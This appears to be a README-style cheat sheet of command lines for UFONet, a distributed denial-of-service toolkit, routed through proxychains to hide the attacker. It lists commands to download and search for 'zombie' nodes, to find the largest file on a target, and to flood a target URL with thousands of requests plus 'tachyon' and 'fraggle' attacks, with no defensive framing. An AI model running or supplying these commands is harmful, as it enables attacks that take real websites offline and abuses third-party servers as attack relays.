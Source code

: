 ## Commands

### Help

```bash
proxychains python3.11 ufonet --help
```

### Update Zombies

#### Download from community

```bash
proxychains python3.11 ufonet --download-nodes
```

```bash
proxychains python3.11 ufonet --download-zombies
```

```bash
proxychains python3.11 ufonet --download-github
```

#### Download by search

```bash
proxychains python3.11 ufonet --auto-search --xforw --xclient --threads=100
```

### Basic Attack

#### Find biggest file on target

```bash
proxychains python3.11 ufonet -i https//target.com
```

#### Attack the target

```bash
proxychains python3.11 ufonet -a https//target.com -b /path/img.jpg -r 1000 --tachyon 1000 --fraggle 1000
```
